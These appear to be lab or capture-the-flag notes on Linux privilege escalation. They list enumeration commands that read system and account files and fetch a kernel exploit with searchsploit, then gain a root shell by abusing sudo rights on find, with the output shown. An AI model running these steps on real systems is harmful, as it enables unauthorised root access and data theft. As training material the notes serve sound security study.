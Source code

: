 ## Enumeration

```bash
hostname
uname -a
cat /proc/version
cat /etc/*release
ps aux
env
sudo -l
ls -la
id
cat /etc/passwd|grep sh$
history
ifconfig
ip route
netstat -ltnp
w
find / -type f -perm 0777 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
```

## Privilege Escalation: Kernel Exploits

```bash
searchsploit linux kernel 3.13.0
searchsploit -m 37292
less 37292.c
find / -name flag1.txt -type f
```

## Privilege Escalation: Sudo

[https://gtfobins.github.io/](https://gtfobins.github.io/)

```bash
$ sudo -l
Matching Defaults entries for karen on ip-10-10-237-93:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karen may run the following commands on ip-10-10-237-93:
    (ALL) NOPASSWD: /usr/bin/find
    (ALL) NOPASSWD: /usr/bin/less
    (ALL) NOPASSWD: /usr/bin/nano
```

`find`, `less`, `nano` can be found in gtfobin

```bash
$ sudo find . -exec /bin/sh \; -quit
# id
uid=0(root) gid=0(root) groups=0(root)
```
